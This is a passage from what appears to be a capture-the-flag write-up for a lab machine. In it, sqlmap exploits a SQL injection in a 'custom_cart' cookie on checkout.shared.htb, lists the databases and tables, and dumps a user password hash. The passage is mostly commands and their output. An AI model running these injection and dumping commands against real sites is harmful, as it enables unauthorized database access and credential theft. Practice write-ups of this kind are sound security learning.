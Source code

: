     [*] ending @ 13:23:59 /2022-08-12/
    

#### Database Enumeration

There are two databases (and `information_schema` is the MySQL default):

    
    
    oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch --dbs
    ...[snip]...
    [13:27:52] [INFO] fetching database names
    do you want to URL encode cookie values (implementation specific)? [Y/n] Y
    available databases [2]:
    [*] checkout
    [*] information_schema
    ...[snip]...
    

`checkout` has two tables:

    
    
    oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch -D checkout --tables
    ...[snip]...
    [13:28:36] [INFO] fetching tables for database: 'checkout'
    do you want to URL encode cookie values (implementation specific)? [Y/n] Y
    Database: checkout
    [2 tables]
    +---------+
    | user    |
    | product |
    +---------+
    ...[snip]...
    

I’ll dump both tables. The `product` table isn’t interesting, but the `user`
table has a hash:

    
    
    oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch -D checkout -T user --dump
    ...[snip]...
    Database: checkout
    Table: user
    [1 entry]
    +----+----------------------------------+-------------+
    | id | password                         | username    |
    +----+----------------------------------+-------------+
    | 1  | fc895d4eddc2fc12f995e18c865cf273 | james_mason |
    +----+----------------------------------+-------------+
    ...[snip]...
    